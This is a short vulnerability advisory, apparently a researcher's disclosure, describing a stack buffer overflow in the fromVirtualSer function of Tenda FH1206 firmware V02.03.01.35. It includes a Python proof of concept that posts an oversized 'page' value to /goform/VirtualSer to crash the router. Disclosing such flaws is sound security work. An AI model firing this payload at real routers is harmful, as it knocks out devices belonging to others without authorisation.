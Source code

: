 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 firmware has a stack overflow vulnerability located in the `fromVirtualSer` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v5, "nat_virtualser.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v5` array, thus triggering this security vulnerability.

![image-20240409100526808](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100526808.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/VirtualSer"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)